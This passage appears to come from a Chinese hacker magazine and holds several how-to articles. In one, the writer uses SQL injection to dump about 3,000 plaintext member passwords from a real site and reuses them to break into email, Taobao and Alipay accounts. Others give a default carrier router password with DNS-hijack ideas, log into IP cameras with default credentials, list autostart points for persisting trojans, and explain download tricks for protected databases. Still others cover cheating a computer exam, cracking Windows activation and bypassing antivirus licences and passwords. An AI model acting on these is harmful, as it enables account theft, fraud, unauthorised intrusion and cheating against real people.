启动 IE 浏览器，选择“工具”->“Internet选项”->“连接”。局域网用户选择“从不进行拨号连接”，拨号用户选择“始终拨打默认连接”。选中建立的拨号连接名称，点击“设置”，选择“使用代理服务器”。

点击“高级”，分别在 HTTP 与 FTP 栏中填入代理服务器地址：202.194.133.2，端口号为 8080；在 socks 栏里填入代理服务器地址：202.194.133.2（或内网用户填 202.194.133.10），端口号为 1080。点击确定完成设置。

局域网用户选中“局域网设置”，选择“使用代理服务器”，点击“高级”，设置同上图所示。

浏览器时，就会弹出一个窗口询问用户的用户名及密码。


图8


图9


图10


图11


图12


图13


图14


图15

其实关于免费上网的方法还有一种，就是破解别人的账号；联创宽带上网助手的密码为8位纯数字，而且也没有次数限制。尤其现在电信推出的天翼手机，手机号就是自己的上网账号，而这个密码长度只有6位（关于这个密码的长度问题，我跟电信谈了好久才给我改成8位的，一般的营业厅只能设置成6位）。关于这款软件，现在还处于调试阶段，希望有志同道合的朋友一起完成。

### 破解Windows 7连连看


万立夫

Windows 7正式版已经出来一段时间了，很多用户都被它的炫目功能所吸引，但是当我们冷静下来后才发现，有一项非常重要的事情还没有考虑，那就是如何激活我们的Windows 7。购买正版当然是最好的办法，但是无奈我们这些人囊中羞涩，所以今天我们就来看看，如何进行Windows 7系统的破解。

#### 一、模拟BIOS破解法

#### 二、刷新BIOS破解法

模拟BIOS破解法毕竟是通过软件来模拟BIOS破解的过程，因此这种方法很容易被微软通过发布补丁的方式来轻松地进行化解。……所以要想长时间无忧无虑地使用，最好的方法还是通过刷新主板的BIOS来实现。

通过前面的介绍可以知道，微软对Windows系统的验证使用了SLP技术这项新的技术。如果用户使用的是品牌机的话，那么只需要将BIOS中的SLIC表更新到最新的2.1版本就可以了。运行“通用SLIC直接备份工具”，通过它就可以检测出SLIC的版本……


图1

如果你使用的是品牌机，而且默认采用的就是SLIC2.1，那么可以点击S键跳过这一步进行后面的操作。接下来导入OEM许可证的文件，同样还是输入对应的品牌编号按回车即可，如图2。不过需要注意的是，前后必须选择同一个品牌才可以。


图2


图4

不过有的用户使用这种破解方法后，在正确的操作以后却出现激活失败，这主要是因为Windows 7系统在安装的时候会自动创建一个100M的引导分区……最后使用破解软件再进行激活操作就可以了。

由于刷新SLIC表需要在纯DOS环境中操作，因此我们首先安装一个“矮人DOS工具箱”……首先输入CLRMARK.BAT清除旧的SLIC表，再输入SETMARK.BAT写入新的SLIC表。操作成功后再安装对应品牌的Windows 7 OEM版即可自动激活。最后要特别提醒的是，刷新BIOS文件存在一定风险，操作前要做好充分准备。

#### 三、系统自带方法破解

如果你觉得上面的操作太麻烦，或者是说操作存在着危险性，那么就使用系统自带的方式进行操作。好在Windows 7正式版在安装后会有一个30天的免费试用期……在“附件”菜单中找到“命令提示符”，以管理员身份运行后执行相关命令。


图3

然后在命令提示符中输入`slmgr.vbs /rearm`的命令即可，如图5。

可以重复使用8次`slmgr.vbs /rearm`的命令，这样算下来就是240天再加上120天，最终我们就可以“免费”使用360天Windows 7了。这时有的人可能会问了，一年以后我们又怎么办呢？我就不信这一年里你都不会重新安装系统一次吗？


图5


图6

其实只需要修改注册表中的一处键值，就可以多次重复使用上面的恢复命令。打开Windows系统的注册表编辑器，定位到“`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SoftwareProtectionPlatform`”，找到右侧窗格中的“SkipRearm”选项并双击打开，然后将其键值信息修改为“1”就可以了，如图6。这样我们又

（文章中所用到的SLIC_Dump_ToolKit_V2.0、Windows7 OEMActivator已收录到光盘中）

### VPN代理服务器，你知多少？

窗前小雨

http/socks代理服务器已经是家喻户晓了，大家都知道它们能让你访问受限网站、隐身上网或者提高网络访问速度，但VPN代理服务器估计知道的人不多，下面我们就介绍这方面的知识，希望能给大家上网带来很大帮助！

#### 一、什么是VPN代理？

VPN（virtual private network）是在Internet上建立的一种专用虚拟网，这种网络由VPN服务器和客户端所组成，但并非人人都能访问的，只有你在VPN服务器上注册了一个账户，然后用VPN客户端登录该账户才能访问VPN服务器。建立VPN网络很简单，在电脑上安装OpenVPN等软件即可架设VPN服务器，然后VPN客户端利用现有的Internet线路（无需铺设光缆之类的物理线路），通过IPsec等安全协议与VPN服务端进行加密通信。

使用VPN代理上网的原理是：你启动VPN客户端，用某账号登录VPN服务器，登录成功后，客户端与服务器之间就建立一个虚拟专用隧道，VPN服务器就成为你上网的代理。客户端将原本要发送给目标服务器的请求通过隧道发送给VPN代理，VPN代理对数据包进行加密压缩处理再转发给目标服务器，如图1；当收到目标服务器的响应后，又原样转发给客户端。

VPN代理最大的优点是数据压缩加密后传输，这样传输的数据就无法监听了，保证了数据传输的安全，同时又能节省带宽，提高数据流的转发速度。而且它架设成本低廉，直接采用Internet线路传输数据，因此成为企业低成本架设自己专线的首选。个人用户使用VPN代理用途也很多，例如能上受限的站点和海外网游，提升海内外网游连接速度，而且还能隐藏自己的IP！

根据使用的传输协议不同，VPN可以分成SSL VPN、IP-Sec VPN与Socks5 VPN三个不同阵营，其中IPSec VPN需要在客户端安装软件，而SSL VPN在客户端无需安装任何软件或硬件，仅用标准的浏览器，通过内嵌的SSL加密协议即可安全访问网络中的信息；Socks5 VPN运行在会话层，客户端需要安装Socks5 VPN客户端软件，该软件负责监控和发送用户的远程访问请求，Socks5 VPN服务器则负责执行相应的身份认证和访问控制策略，让通过检查的数据流进应用服务器。


图1

#### 二、如何免费使用VPN代理上网？

目前网上有很多VPN代理服务器，分为收费的和免费的两大类，在baidu或Google中搜索“VPN代理”能找到很多，基本上都是收费的。不过收费的VPN代理一般提供了免费测试账号，但这些账号没什么用处，因为限制太多，例如用满20分钟会自动断开、同一IP每天只能登录3次等等。购买收费VPN代理的主要是游戏玩家，因为Great Fire Wall封锁无法直接连上国外游戏服务器，只有花钱买VPN代理继续玩海外游戏了！如果你没钱买收费的VPN代理，想使用免费的VPN代理上网，请看以下介绍的3种方法。

##### 1、自建VPN连接上网

本方法思路是先找到一个国外免费VPN服务器，再到该站免费注册一个账号，然后在本机创建VPN网络连接，用该连接登录VPN服务器，接下来即可上受限站点和海外游戏了。不过国外免费VPN代理并不好找，一公布就会被封锁或者停止免费服务，例如Hotspot Shield、UltraVPN、Linkideo和Relakks、pdlog-vpn.com目前都无法使用了。荷兰免费VPN代理服务器ItsHidden如今还能使用，下面就以ItsHidden为例介绍操作步骤：

- 1. 在WinXP中依次点击菜单“开始”→“设置”→“网络连接”→“新建连接向导”，点“下一步”，选择“连接到我的工作场所的网络”，如图2，按“下一步”。
- 2. 选择“虚拟专用网络连接”，如图3，点“下一步”，输入一个公司名或要连接的VPN服务器名（可任意），点“下一步”，选择是否在VPN连接前自动拨号，勾选默认选项“自动拨此初始连接”，如图4，这样VPN连接前就会自动拨号Internet连接，注意只有Internet连接通了，才能进行VPN连接。
- 3. 点“下一步”，输入要连接的VPN服务器域名或IP，例如vpn.itshidden.com，如图5，按“下一步”，勾选“桌面上添加快捷键”，点“完成”，VPN网络连接就创建好了。
- 4. 接下来要修改VPN连接设置，点击“开始”→“设置”→“网络连接”，选择要修改的VPN连接名，右击鼠标选择“属性”，在VPN属性窗口中点击进入“安全”选项，不勾选“要求数据加密（没有就断开）”，如图6，按“确定”退出。
- 5. 现在点击桌面上的VPN连接，会弹出一个窗口，输入你在VPN服务器（例如itshidden.com）上注册的用户名、密码，点“连接”，如图7，就可以连接上VPN服务器了。连接成功后在右侧托盘区会有Internet连接和VPN连接两个图标，打开IE能上http://www.youtube.com，说明现在能用VPN代理上受限网站，运行网游客户端也能连上海外服务器，而且你的IP也会变成国外的。

以后要使用其它VPN服务器代理上网，只需修改VPN连接即可，点击“开始”→“设置”→“网络连接”，选择要修改的VPN连接，右击鼠标选择“属性”，在VPN属性窗口中进入“常规”选项，设置新的VPN服务器地址，如图8。

- http://www.cn70.net/proxy/vpn/
- http://www.vpn88.com/
- http://tieba.baidu.com/f?kw=vpn


##### 2、用免费VPN公布器上网

免费VPN公布器目前很少，例如www.8558.org的免费VPN公布器已经改成收费软件了，这里就不再介绍。如今只有飞易VPN共享器还能免费使用。飞易VPN共享器既是VPN连接器，又能显示每天更新的免费VPN代理资源，是网友使用免费VPN代理的必备工具。

- 1. 飞易VPN共享器当前最高版本是1.8（下载地址是http://www.feiyi-soft.cn/vpn/vpndown.htm），该软件版本升级极快，例如当你看到本文时就已经升级了，可以到他们网站下载最新版。这里以1.8版本为例来介绍其用法，更高版本的用法与此类似，下载完毕将下载包展开到硬盘某目录下。
- 2. 如果你在网吧上网，网吧禁用VPN代理，可以到http://www.feiyi-soft.cn/vpn/vpndown.htm下载“飞易VPN解决网吧限制VPN”，将下载包展开到硬盘某目录下，然后运行该目录中的“飞易VPN解决网吧限制VPN.bat”，取消VPN代理使用限制，再启动飞易VPN共享器即可。如果你的上网环境允许使用VPN代理，第2步可以省略。
- 3. 进入飞易VPN共享器安装目录，点击exe文件启动该软件。飞易VPN用起来很简单，首先点击“选择大家分享的服务器”，在弹出的窗口中点“获取服务器”，如图9，即可得到免费的VPN服务器地址、账户名和密码。
- 4. 点“ping服务器”测试各VPN代理的速度，然后点击列表中的“服务器地理位置”，按所在位置给VPN排序，最后挑选一个位于国外的、ping时间短的、可用时间长的VPN，再点击“确定连接”，飞易VPN就会自动连接该VPN服务器，连上后在右边托盘区显示一个图标，接下来你就能随意上国外站或海外网游了，而且IP都是外国的。


##### 3、用VPN代理软件上网

本法思路是下载VPN代理软件（又称登录器、网络加速器或客户端），用该软件登录国外VPN服务器，然后所有的网络访问都会借由这个VPN软件绕道完成。接下来你无需任何设置，启动浏览器即可浏览受限站点，启动网游客户端即可玩海外网游，而且还能隐藏IP。目前免费的VPN代理软件不好找，网上流传的Hotspot Shield、CyberGhost都无法再用，国产的VPN代理软件全是收费的，下面以“513vpn”为例介绍操作步骤：

- 1. 下载VPN代理软件（例如去 `http://world.513vpn.com/`），在硬盘上展开下载包。
- 2. 到网站（如 `http://www.513vpn.com/Article/ShowArticle.asp?ArticleID=72`）查看免费测试账号，选择一个国外的测试账户（例如用户名 `513world2`、密码 `6f56d-9ff7`）。注意测试账号会不定时掉线，如要稳定使用应去网站交钱注册一个收费账号，到 `http://www.513vpn.com/Article/ShowArticle.asp?ArticleID=82` 注册。
- 3. 进入VPN代理软件安装目录，双击执行文件启动它，在软件中选择VPN服务器，从列表中选择一个国外服务器（例如韩国的），填入用户名和密码，点击“登录”，稍等片刻就连上国外VPN服务器了，接下来即可访问国外网站或启动网游客户端玩海外游戏。


图10

（文章中所用到的飞易VPN共享器、513vpn VPN代理软件已收录到光盘中）

### 傻瓜黑客

## 简单进入别人发的大批量EMAIL密码

一日在家闲着无聊，于是决定碰碰运气，搜索些注入点，看看哪些可以利用的。拿出啊D注入工具，在监测版页面上打开百度，然后点“设置”，将搜索结果显示条数设置成了每页显示100条，随意地搜索了关键字“* inurl:asp”（星号处是为随意填写的文字），结果一下子就找出了很多注入点，如图1。

居然有3000多个会员的数据，而且密码居然还是明文没有经过MD5加密的，如图2。这下可有的玩了，可能有的小菜还不明白，我先问大家几个问题：你是否将EMAIL的密码设置得很简单？你是否将这个密码也用于其它的网站和论坛的账户上？如果这两个问题你都回答了是，那么就不要奇怪你的一些账号会丢失了。而对于我入侵的这个没有经过MD5加密、直接就可以猜解出明文密码的网站，就算你的密码设置得再强壮，恐怕也不起作用。


图1

图2

其实这样搜索出来的注入点大多数都是没有用的，很多都是猜解不出表字段，或者是找不到管理后台。根据我的测试，大概每50个注入点里能有一个可以利用的就不错了。可今天的运气实在是好，搜索到的第一个注入点就让我获益匪浅，里面居然有3000多个会员的账号和密码……

首先要做的就是猜解出会员的账号和密码，3000多个，全部猜解完最少也得需要几十个小时，于是就在电脑上挂着先去睡了一觉。三个小时后醒来，发现才猜解出了300多个，其中还有许多是垃圾账号（垃圾账号就是随意注册的那种），不等了，300多个也够玩一会了。


图3


图5

由于在啊D上猜解EMAIL经常会因为长度过长而失败，所以我猜解的只是会员的账号和密码，然后再逐一登录到网站上去查看注册信息中的EMAIL信息。随意挑选了几个密码强壮的去登录，第一个就成功了，如图3，在邮箱里找到了他的淘宝注册信息，然后我又使用这个密码尝试着去登录淘宝，果然密码也是一样的，如图4。

后来我又试了二十几个密码比较强壮的账号，成功率果然很高，这二十几个账号中就只有三个的EMAIL密码是不一样的。有一个的支付宝账号上居然还有900多元呢，如图5。只是需要安装数字证书，至于怎样把那些钱转到自己的账号里那就不在本文的讨论范畴了。

这次入侵有很大的运气成分在里面，但记得《七龙珠》里的龟仙人曾经说过，运气也是实力的一部分。只要肯付出辛苦，总有一天幸运之神会眷顾你的。最后也奉劝各位朋友，在将密码设置强壮的同时，也不要忘了不同网站的账号要使用不同的密码才够安全。

> （文章中涉及到的啊D注入工具已经收录在了光盘中）


图4

### 让金山毒霸也变成免费

柳叶吹风

现在就连360也推出了免费的杀毒软件，看来收费杀毒软件以后的日子就更加不好过了。不过话虽这么说，对于刚推出的这款360杀毒我还是持保留意见的，毕竟那些收费的杀毒软件都是老牌子了，质量还是很有保证的。至于安装盗版的问题嘛，这次我就给大家送上两款小工具，可以让收费杀毒软件变成免费。

免费申请金山通行证的工具其实在网上还是很常见的，但大多都是37天的，时间未免也太短了，而我要送给大家的是好不容易才找到的一款专门用于申请120天通行证的工具，这就是必杀客金山毒霸通行证申请器。

我们打开必杀客金山通行证申请器V1.6，这里我说明一下，其实官…


图1

### 傻瓜黑客


工具已经更新到1.8版本了，不过可惜的是最新版本已经被金山给“和谐”了。但也许正因为如此，金山的加密方式并没有改变，所以旧版本还是可以使用的。另外，这款工具要求我们的电脑中必须安装了金山毒霸才行。工具运行后的界面如图1所示，直接点击“申请120天通行证”，然后在弹出的窗口里选择下一步，在服务器验证完成后选择“我是新用户”，工具就会自动帮我们申请了，如图2。120天到期后我们还可以反复申请，非常方便。不过如果短时间内申请的次数太多，可能会出现连接不上更新服务器的情况，应该是官方对IP有限制，过一段时间就会好了。建议大家一次不要申请太多，够用就行了。

（文章中所用到的金山通行证申请器V1.6已收录到光盘中）

### “#%”型特殊符号数据库适用下载法

在前几期的杂志里，大家对数据库的下载方法进行了一些探讨与研究。我先来大概叙述一下他们的思路：在第7期的杂志中，CC米业同学通过自己的合理推理得出了一个结论——将数据库的名字前加上“#%”就可以防止被下载了。而在第9期的杂志中，小楼听雨同学在充分理解IIS解析的前提下对其文章进行了更为深入的研究，反驳了其观点。应该说他们的问题集中在了“#%”后的“%”如何处理。在第10期的杂志中，风云春秋同学倒更为简单地利用了下载工具的辅助就解决了问题。这时候我不禁要提出一个疑问：类似这样的数据库名（##%%23#swan#$$%.mdb）有谁知道该如何解决下载问题呢？

之所以会问这个问题，主要是因为我的淘宝网程序的数据库就是这么变态。如果按照IIS解析特性来分析，涉及到如此多的特殊符号，那就非常棘手了。到底有没有解决此类以特殊字符命名的数据库下载方法呢？

我使用小旋风服务器搭建了一个测试平台，把淘宝程序的数据库随便更改为了以特殊符号命名的数据库，比如“##%%23#swan#$$%.mdb”。看到这一串字符后，首先还是回顾一下小楼听雨同学的分析过程：##%%应该是改为%23%23%25%25%，那么全部的就为%23%23%25%2523%23swan%23$$%25，但在实际测试时却不行，在超级旋风中提示非法URL，我猜想是这个符号在捣鬼，如图1。

把$符号使用URL 16进制加密的24%进行代替，看是否可行，如图2。再次下载，发现还是提示非法URL，如图3。其实我上面的分析是完全不合理的，在此只不过是想证明一下：分析类似复杂的数据库名时真是会令人头大。除非是像小楼听雨同学那样精通于IIS解析原理的人才可以做到吧，不过这也给出了几个问题与另类下载的思路。


问题就是像“##%%23”这样的数据库名应该如何去分析下载呢？而思路就是：我们分析的时候是从URL编码这一出发点进行，那我们要是从URL加密的角度去思考呢？当然，刚才的示范只不过是应用编码与加密来“抛砖引玉”罢了。再次进行测试，我们把##%%23#swan.#$$%.mdb这个数据库名全部加密，如图4，构建URL下载地址“127.0.0.1/db/%23%23%25%25%32%33%23%73%77%61%6E%23%24%24%25%2E%6D%64”，测试后发现下载成功了。这表明全部加密数据库名的方法是完全可行的，如图5。


图3


图4


图5

现在再解决“##test.mdb”或者“#%.test.mdb”的问题是不是很简单了呢？甚至于我想连“#%#%%%23.mdb”都易如反掌了吧。怀疑之前的是巧合吗？我们再来示范一下：先加密得到密文“%23%25%23%25%25%25%32%33%2E%6D%64%62”，接着测试下载情况，也是完全可以的，如图6。最后我们再来试一下“.mdb”这样的形式看能否被下载，但测试的结果证明是不可行的，如图7。


图6


图7

本次演示揭露了一个以特殊符号命名的数据库的通用下载方法，不过对于夹杂了空格符号的名字还是无法下载，接下来的任务就请有志之士来解决这个高深的难题吧！

### 壮举：三级让你信手拈来

风逝水

上个月刚刚考完了计算机等级考试的3级机考部分，准考证上是18:00的考试时间，可我是17:50才到的考场。顶着监考员严厉而又冷峻的目光，我最后也是最晚才进入的考场。大多数的考生都是17点多一点就来等待考试了，只有我吊儿郎当地直到快开始的时候才进场。接着，又创造了一个第一，成了整个考场第一个出场的人，前后一共10分钟，我就完成了计算机3级的机考部分。这可不是我在编故事，也不是我考试不认真，我自认为自己是全场最有把握的人，因为我找到了3级机考的一个小秘密。

先打开计算机3级考试的机考界面，输入对应的准考证号后就可以答题了。我考的是计算机3级的PC技术，那就以这个模拟考试软件为例吧。电脑会在你输入准考证号并校对正确后，随机从题库内抽取一道题来作为你的考试题，如图1。得到了题目后，先不要忙着答题；因为我对于这些题完全不会。也正因为此，我在考试的前一天研究了整整一晚上，最终发现其实考试可以不用作答。在题目的显示界面上有个考生文件夹，如图2。打开这个文件夹，可以发现文件夹下有这么几个文件，如图3。


图1


图2


图3

下面我来解释一下这几个文件的意思。input1.dat文件如果使用记事本打开，就会发现一串数字，这些数字就是需要你编译的题目，如图4。IO.OBJ是题目运行时load和save所调用的.obj文件，可以不必理会它；而link.exe和masm.exe是运行编译你提交的题目时所要用到的两个文件；最后的prog.asm也可以使用记事本打开，如图5，这就是本次考试所需要编译的程序代码了。

介绍完了这些文件后，看到那些代码，大家千万不要头疼。也许你跟我一样，没有工夫去看书，但是又指望着能过3级的机考，那接下来我就来教你方法。


图4


图5

我们分析题目：题目要求考生将10个数舍去最大的和最小的，然后在剩下的8个数中取平均值，最后在剩下的8个数后面存放求出来的平均值。看着题目似乎挺复杂，但是仔细读一读就能明白题目的意思了。明白了题目的意思，我们开始答题。既然我们不会做，那么就不要在题目界面上浪费时间了，直接在考生文件夹（也就是存放那四个文件的文件夹）下面新建一个文本文件，取名为output1，记住这里的后缀要改成dat，如图6。因为计算机3级考试最后验证的就是答案文件的数据，而答案文件就是output1.dat。


图6

关键就是怎么填写这些数据了。我们打开input1.dat，看到“01 05 04 00 07 09 02 06 08 03”了吗？按照给出的题意，我们先去掉一个最大值和一个最小值，那么就剩下了“01 05 04 07 02 06 08 03”。接着我们求出剩下数的平均值，口算得出结果为4.5。题目要求“按四舍五入原则计算其余8个数据的算术平均值”，那么就是5。最后的结果也就出来了：“01 05 04 07 02 06 08 03 05”。将我们计算出来的结果保存到output1.dat文件中并保存，如图7。


现在我们离考试结束已经不远了。如果你觉得答案都出来了，就点了交卷的按钮，那么等待你的将会是0分的结果，我们的心血也就白费了，如图8。大家注意看对话框右侧“评分细则”中的“可执行文件（未生成）”。在3级考试中会生成一个exe文件，也就是考生在填完prog.asm的空缺部分，然后在cmd下使用masm和link调用masm.exe和link.exe文件后生成的程序，再运行生成的那个程序，最后就生成了一个output1.dat的答案文件，完成全部考试。

但是我们是投机取巧的考生，不会做题，那怎么生成那个关键的文件呢？别急，我告诉你一个最简单的办法：新建文本文档。聪明的你是不是已经猜到了我要做什么了？是的，就是将生成的文本文档直接更改成那个程序的名字。而那个程序的名字我最后也找到了，就是prog.exe。现在就操刀上阵吧，如图9。


这回点交卷试试，是不是得到了你满意的分数呢，如图10。可执行文件生成了，答案也是全对的。好了，下次计算机等级考试，就勇敢地报名吧，机考你也可以10分钟交卷的。

> （文章中所用到的三级PC技术上机模拟环境已收录到光盘中）


### 是谁出卖了你？

大家在共享上网的时候都喜欢使用路由器，但你的路由器安全吗？在别人电脑的浏览器中输入你的外网IP地址，看看会出现什么？结果你的路由器登录页面出来了，如图1。在百度里搜索TD-8820，就可以知道这是TP的路由器，其默认的账号和密码都是admin。就这样我们轻而易举地就登录进入了对方的路由器管理页面，如图2。得到对方的ADSL账号和密码也是非常简单的事情了，如果更改一下对方的DNS，指向一个挂马的页面，那后果可想而知。

要防止这类情况发生，最直接的方法就是把你路由器的远程访问功能关闭。对于一般的使用者，这个功能其实没什么意义。这种情况不仅存在于个人用户使用的路由器上，中国电信ChinaNet所使用的H3C无线路由器也存在这样的问题，如图3。在网上搜索H3C默认的账号和密码，马上就找了出来，账号是telecomadmin，密码是nE7jA%5m，输入、登录，就这样也进来了，如图4。如果有人在这上面做点手脚的话，那后果真的会很严重。


最后我要说的就是视频监控系统了，比如IP camera、DVR/DVS等这些视频监控系统，有的根本就不需要登录账号和密码，而有的登录账号和密码就是admin和12345。我使用默认的用户名和密码就成功登录了IP camera，如图5。点击“实时浏览”，就可以看到视频监控系统的截图了，如图6、图7。你看后或许会很震惊！~

> 你的设备安全吗？千万不要让它们出卖了自己，赶快回家设置你的密码吧！

### 快速破解网页加密

ScudesertXof（杨扬）

大家有没有过这样的经历——为了达到某个目的想要查看某个网页的源代码，可打开后却发现网页的源代码被加了密。其实，我们完全可以在网页的地址栏中输入下面这句代码来达到解密的效果。

```javascript
k=document.documentElement.outerHTML;document.write('<body></body>');document.body.innerText=k;
```


为了测试这句代码的威力，我特意写了个“QQ防盗登录器（WEB版加密）.htm”。这个网页我使用了许多空白代码来混淆，并加了两层密。其未加密的源代码如图2所示，我们打开已经加过密的网页并查看源文件，如图3。

```html
</SCRIPT>
<META content=zh-cn http-equiv=Content-Language>
<META content="text/html; charset=gb2312" http-equiv=Content-Type>
<STYLE type=text/css>
body { background-image: url(qlogin/BJ.jpg); background-repeat: no-repeat; }
#YY { position:absolute; width:500px; height:625px; z-index:1; left:450px; top:0px; }
</STYLE>
<SCRIPT type=text/javascript>
google_ad_client = "pub-7815457011754034";
google_ad_width = 125;
google_ad_height = 125;
```

接着，在地址栏输入上面的那段代码，结果解密出来的源码如图4所示。最后我再简单地说一下原理：利用这段代码，不论网页如何加密并且加密得多么复杂，但最终都要还原成浏览器可以解析的HTML语言，而documentElement.outerHTML就是原始的代码。

> （文章中所用到的“QQ防盗登录器（WEB版加密）.htm”及源码已收录到光盘中）

### 提权之程序自启动


在提权的过程中，我们经常会用到一些服务启动项，通过替换服务启动项或者加载程序来执行我们的提权木马或者执行我们的提权命令。本文我跟大家分享一下Windows系统中的一些程序自启动方式。

#### 一、利用程序自带的文件启动

- 大家最常使用的就是通过点击“开始”-“程序”-“启动”，在这里加载我们要启动的程序。这个文件夹的路径为“C:\Documents and Settings\Administrator\[开始]\菜单\程序\启动”。

- 使用AUTOEXEC.BAT。这是电脑上的自动批处理文件，也可以说是一个命令文档，始源于MS-DOS系统，我们可以在AUTOEXEC.BAT文件里输入任何适用于MS-DOS的指令。

该文件在Windows NT系统之前是在每次系统启动时都自动运行的，但是在NT以后的系统中，只有系统在启动命令提示符下才会自动运行。这个方法也是比较有效的，试想谁的电脑从不运行命令提示符呢？这个文件的具体位置就是“C:\WINDOWS\system32”目录下的一个名为AUTOEXEC.NT的文件（NT以后的版本的命名方式）。

- 使用config.sys。config.sys是在autoexec.bat（自动批处理程序）文件执行前所载入的，它是DOS系统中的一个非常重要的文件。它的配置会直接影响到系统的使用及其效率，如果配置不当的话，可能很多程序都无法正常运行。因此，正确合理地配置config.sys文件将是十分必要和重要的。关于这个文件的具体配置大家可以参考百度百科里的介绍（http://baike.baidu.com/view/954896.htm），这里我就不多说了。不过需要强调的是，在NT以后的系统中该文件被命名为config.NT，具体路径就是在“C:\WINDOWS\system32”下。

- 使用win.ini。这个文件影响Windows操作环境的部分，包括在启动Windows时执行哪一个应用程序、警告声音的设置、窗口边框的宽度、键盘响应的速度、鼠标设置以及将文件定义为文档或程序等。这也是在系统启动时会自动执行的一个文件，该文件的路径为“C:\WINDOWS”。

- 使用system.ini。该文件位于“C:\WINDOWS”目录下，我们在cmd下输入“msconfig”也可调出来。这个文件里的内容也是系统在启动时自动执行的。关于系统在启动时所运行的文件还有很多，这里我就不一一介绍了，有兴趣的朋友可以到百度百科参考一下。

#### 二、利用注册表修改

- 我们知道在注册表中可以通过修改“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run”下的内容进行自启动，很多杀毒软件都是通过这种方式启动的。其实能启动的远不止这个Run，凡是在注册表中以Run开头的都可以，在同目录下的RunOnce和RunOnceEx也是可以的。

- 关联文件打开方式，也就是更改文件的打开方式。这样就可以在程序打开某一类型的文件时而打开我们指定的文件了。此修改方法是在注册表的“HKEY_CLASSES_ROOT\exefile\shell\open\command”下，默认的数值是“"%1" %*”，我们可以修改为“yechonger.exe "%1" %*”，如图1。


这样在打开一个exe文件的时候就会运行yechonger.exe这个文件了。前段时间在论坛上有位文子编写了一个病毒，运行后电脑上所有文件的图标都改为了X档案的图标（这点类似于熊猫烧香病毒）；其次是只要你运行QQ或者杀毒软件，都会使他的木马上线，我想这点就是使用了这种方法吧。病毒自带了下载功能，并且修改了此处的注册表，所以电脑在中毒后就会自动下载他空间中的木马，然后修改此处的注册表，之后不管你运行什么样的exe文件，都会使他的木马上线。不知道那位仁兄制作的病毒的原理是否如此！

- 还有一种修改注册表实现自启动的方法，就是在“HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Windows”下新建一个键值，然后将该键值的字符串改为我们想要启动的程序就可以了。这种方法比较隐蔽，一般利用工具是很难看到此处有程序被加载的。

#### 三、利用屏幕保护程序

电脑在静置一段时间后基本上都会出现屏幕保护，这说明屏幕保护程序也是自启动的一种方式。Windows的屏幕保护程序是一个.scr文件，文件默认路径是“C:\Windows\system32”，如图2。


上面就是我电脑中的屏幕保护程序。这里要说明一下，对于屏保的scr文件，我们将它改为exe或bat后仍然可以运行，因此我们可以通过替换这些文件来达到让我们的程序自启动的目的。

至于程序中自启动的服务还有很多，像在电脑中安装某些软件，软件本身都会带有自启动的服务组件，这些我们都可以在电脑的服务中看到，如图3。文章就先介绍这些，本人水平有限，如果文中有不足之处还请多多指点。

### 解除NOD32 4.0设置的密码

swan

ESET NOD32是深受网友喜爱的反病毒程序之一。为了有效保护设置信息，NOD32为用户提供了个人设定保护，但如果密码忘了，那么就无法进行重新设置了，当然最糟糕的是卸载软件时也需要输入密码才行，这可是一件令人很恼火的事情，如图1。


#### 1、官方的解决方法

我们到 http://down1.eset.com.cn/faqtools/unlock3.0.exe 下载安装unlock 3.0.exe，运行后将会出现如图2所示的窗口。我们把ID后面所对应的数字发送到ESET NOD32的技术支持邮箱 support@version-2.com.cn 中，技术支持工程师就将回复你解锁的ID。然后我们再运行unlock 3.0.exe，将解锁的ID输入，点击Unlock后就会解锁保护密码了，如图2。

#### 2、注册表法

我们打开注册表并定位到 “HKEY_LOCAL_MACHINE\SOFTWARE\Eset\ESET Security\CurrentVersion\Info” 位置，把右边的“PackageID”删除后再打开该软件更改设置就不会有要求输入密码了，我们也可以再重新设置一个新的密码，如图3。如果以后杀毒软件不让我们删除注册表项的话，我们依然可以对“Info”进行权限设置，拒绝其访问，这样也能达到破解密码的目的。

### 没有客户端，也照样使用非凡VPN

txcbg

无意间使用了一下非凡VPN（vpn123），惊喜地发现居然可以使用（目前免费的VPN真的已经不多了），但唯一令人不爽的地方，就是需要专用的客户端才能连接非凡VPN。我是一个能使用系统自带的功能实现就不使用第三方软件的人，再加上考虑到专用的客户端也可能会存在安全问题（也许我有点儿“过敏”了），于是就想找出不使用专用客户端也能使用非凡VPN的办法。

由于使用专用客户端可以连接上，我首先想到的就是对客户端程序的连接过程进行抓包。如果能抓取到连接的VPN服务器地址以及连接时使用的用户名和密码，那就可以考虑使用系统自带的VPN连接了。非凡VPN的专用客户端所对应的进程是Vpn123.exe，使用WinSock Expert对其连接非凡VPN的过程进行抓包的结果如图1所示。


抓到的内容很少，发现了client1.vpn123.com和client2.vpn123.com两个地址，本来以为这就是连接的VPN服务器地址，但连接时却不成功。使用非凡VPN专用客户端连接成功后（我选择的是国内VPN），使用浏览器打开 http://www.ip.cn ，显示的IP地址是210.51.23.73，为“上海市浦东网通IDC”，那这个210.51.23.73会不会就是连接的VPN服务器地址呢？又由于VPN服务器的默认连接端口很多都是1723，那么非凡VPN是不是也是这样呢？我打开CMD命令提示符，输入 `telnet 210.51.23.73 1723`，显示如图2所示：


有反应，这说明我很可能猜测对了，下面就来建立一个VPN连接。依次选择“网上邻居”->“查看网络连接”->“创建一个新的连接”->“连接到我的工作场所的网络”->“虚拟专用网络连接”，然后给连接起一个名字，比如我起的名字就是123，选择不拨初始连接，来到下一步后输入VPN服务器的名称或地址，我填写的是210.51.23.73，选择“只是我使用”，勾选上“在我的桌面上添加一个到此连接的快捷方式”，最后点“完成”就会弹出来连接VPN的界面了，如图3。


输入国内VPN的测试用户名和密码（test和kdwo，测试用户的密码半小时会变化一次），但在连接时却提示“本地计算机不支持所要求的数据加密类型。”，如图4。

我注意到在使用非凡VPN专用客户端连接成功后会在网络连接中多出来一个名为Vpn123的虚拟专用网络连接，输入用户名和密码后就会成功连接。查看它属性中的“安全”设置，如图5所示，而我们刚才所建立的VPN连接属性的“安全”设置却是如图6所示。把它更改为和Vpn123一样的安全设置，再次进行连接，还是不行，提示域上的用户名和密码无效，都闷了。


在网上搜索“本地计算机不支持所要求的数据加密类型。”，发现也有一些网友遇到了同样的问题，给出的解决办法很简单，就是在连接属性的安全设置里把“要求数据加密（没有就断开）”这个选项去掉，而其它都保持默认，如图7。去掉这个选项后果然连接成功了，如图8。

